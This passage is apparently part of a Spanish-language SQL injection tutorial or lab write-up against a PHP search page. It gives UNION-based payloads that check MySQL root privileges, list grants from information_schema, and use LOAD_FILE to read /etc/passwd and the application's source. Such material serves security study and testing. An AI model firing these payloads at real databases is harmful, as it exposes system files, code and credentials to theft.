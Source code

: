 ```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    